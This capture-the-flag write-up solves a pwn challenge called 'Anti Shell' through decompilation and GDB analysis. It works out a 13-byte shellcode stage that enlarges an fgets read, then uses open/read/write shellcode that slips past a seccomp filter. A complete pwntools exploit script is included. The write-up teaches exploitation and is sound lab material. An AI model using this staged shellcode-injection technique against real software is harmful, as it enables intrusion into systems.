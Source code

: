 # Anti Shell

## File Analysis
![image](https://github.com/user-attachments/assets/5c9a4839-5a6c-4d3f-9613-27395e73f796)

## Steps to Solve
## Step 1:

Use **Ghidra** to decompile the code, and I see that the first input actually does nothing. But the second input is actually vulnerable because of the <b>"(*(code *)local_28)();"</b> This will actually just execute anything inside the local_28 buffer.

<details>
  <summary>Decompile Code</summary>
  
```C
void main(void)

{
  undefined local_28 [28];
  undefined4 local_c;
  
  setup();
  printf("How many characters is your input?\n>> ");
  __isoc99_scanf(&DAT_0040202f,&local_c);
  getchar();
  printf("Okay, now give me your payload\n>> ");
  setup_jail();
  local_c = 0xd;
  vuln(local_28,0xd);
  (*(code *)local_28)();
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```

</details>

The **vuln** function actually just a normal **fgets**.

```C
void vuln(char *param_1,int param_2)

{
  fgets(param_1,param_2,stdin);
  return;
}
```

## Step 2
But from what we see, the local_28 is only taking 13 bytes as input. It is very hard to write a shell code in 13 bytes. Therefore, I tried to use this 13 bytes to modify the fgets size input. So that I can have enough size to write my shellcode.
 
![image](https://github.com/user-attachments/assets/ee17c2a2-08a0-4dcb-beab-866fd30fb7dd)

So from **GDB**, we can see that [rbp-0x20] is actually the local_28, and the size specify for the input is [rbp-0x4] because 0xd is moving into it.

![image](https://github.com/user-attachments/assets/11655bdc-2b21-41d3-838a-544e37f2c9c7)

But actually from here, the most interesting part is the <b>"call RDX"</b>, because we know that we got control of the local_28, which is the [rbp-0x20]. and also from the main+124, the [rbp-0x20] is moving to the rdx. Therefore, we know that we can inject malicious instruction into the RDX so it will then execute it.

## Step 3
So from here, we have to know that only **0xd (13) bytes** of size will be input into the local_28 buffer. And we have to think about what can we do with 13 bytes instruction. Then after a moment of thinking, I figure out that I can actually change the size of the fgets and calling with it because of we have control of the RDX. 

The payload will be
```python
payload = asm("pop rax; sub eax, 25; push rax; mov edx, 500; ret")
```

> What this payload actually does is, it will first pop rax. (Since it call RDX, so the next instruction's return address will be push to stack, so after the call RDX function finish its instruction and reach the **"ret"** then it will go back to the normal next instruction). So after **pop RAX**, the RAX now contain the address of **0x40135b (main +135)**. Then we just sub this 0x40135b with 25 then the rax now will become **0x40135b - 25 = 0x401342 (main +110)**. Then we just **mov 500 into edx**, because from the GDB we can see that the **edx is moving into the esi** which is the size. So we need to mov 500 into edx, to make a bigger size. Then **ret** will go back to the **0x401342 (main +110)** because now the return address of the stack frame is already **0x401342**.



With this, we can know that this payload is exactly **13 bytes**. Which can fill all the instructions into the local_28 buffer. Then, when we send this payload to the binary. It will then return another fgets with bigger size (in this case will be 500 bytes) and store it in local_28. But with the same issues, the binary will still call the RDX. Which is the buffer, means we still can send malicious instruction to the vuln buffer but then this time we have bigger size to do whatever we want.

## Step 4

```python
shellcode = shellcraft.sh()
```

![image](https://github.com/user-attachments/assets/8af35eaa-7a03-4c54-8f6f-6cbd8a487ab7)

So now that, I know I can write anything into the buffer then it will execute it. So I just use shellcraft to spawn a shell, but then I realized that it is not working and have **exit code -31 (SIGSYS)**. 

_**What is SIGSYS?**_
> **SIGSYS (Signal 31)** is a **bad system call signal**. It is sent to a process when it makes an **illegal system call** or attempts to execute a system call that the kernel doesn't allow (due to **sandboxing, seccomp filters, or missing capabilities**).   _*GENERATED BY CHATGPT*_

## Step 5

![image](https://github.com/user-attachments/assets/0b2c96f6-0e09-4882-a59b-e237169df5b5)

After receiving **SIGSYS**, then I try to use **[seccomp-tools](https://github.com/david942j/seccomp-tools)** and realized that this binary only allow us to use the **read, write, open** in the [syscall table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md).

Then I just use chatgpt to generate a shellcraft using only **read, write, open** to read a flag.txt in the system.

```python
shellcode = shellcraft.open('flag.txt', 0)  # Open the file "flag.txt" (0 -> O_RDONLY)
shellcode += shellcraft.read('rax', 'rsp', 100)  # Read the file content into memory (rax -> fd, rsp -> buffer, 100 bytes)
shellcode += shellcraft.write(1, 'rsp', 100)  # Write the content to stdout (1 -> stdout, rsp -> buffer)
```

**_Explanation_**
> 1. shellcraft.open('flag.txt', 0): This opens the flag.txt file in **read-only mode** (O_RDONLY).
  > - The **file descriptor (fd)** of the opened file is stored in **rax**.
> 2. shellcraft.read('rax', 'rsp', 100): Reads 100 bytes from the **file descriptor(fd) in rax** into **memory starting at the address in rsp** (the stack pointer).
  > - The **file descriptor(fd) is rax**, which was **returned from the open call**.
  > - The **buffer is rsp** (stack pointer).
> 3. shellcraft.write(1, 'rsp', 100): Writes the 100 bytes from the stack (where the file content was read) to **stdout (file descriptor(fd) 1)**.
>
> _GENERATED BY CHATGPT_

<details>
  <summary>Exploit Script</summary>
  
  ```python
  from pwn import *

exe = context.binary = ELF('./challenge')

p = exe.process()

p.sendlineafter(b">> ", "50")

payload = asm("pop rax; sub eax, 25; push rax; mov edx, 500; ret")
p.sendlineafter(b">> ", payload)

shellcode = shellcraft.open("flag.txt", 0)
shellcode += shellcraft.read("rax", "rsp", 100)
shellcode += shellcraft.write(1, "rsp", 100)

p.sendline(asm(shellcode))

p.interactive()

  ```
</details>


![image](https://github.com/user-attachments/assets/f2efa3a7-9ce8-4321-964d-f8a25eb9c25c)


Just like that and we can read the flag!!!


